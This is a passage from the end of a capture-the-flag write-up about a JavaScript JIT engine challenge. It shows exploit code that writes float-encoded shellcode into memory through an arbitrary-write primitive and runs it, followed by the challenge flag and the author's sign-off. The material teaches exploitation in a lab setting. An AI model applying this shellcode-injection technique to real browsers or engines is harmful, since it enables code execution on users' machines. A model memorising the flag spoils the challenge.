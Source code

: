 ```js
print("[*] Shellcode @ " + hex(addr_shellcode))

let shellcode = [
    2.825563119134789e-71, 3.2060568105999132e-80,
    -2.5309726874116607e+35, 7.034840446283643e-309
]

for(var i = 0; i < shellcode.length; i++) {
    write(addr_shellcode + i*8, shellcode[i])
}

print("[*] Shellcode write done")

f()
```

## Flag
`inctf{JIT_t0o_f4st_1t_g0t_c0nfus3d}`

I hope you guys enjoyed the challenge, I learnt a lot while making it! Feel free to reach out to me on [twitter](https://twitter.com/_d4rkkn1gh7) for any questions/queries regarding this writeup.
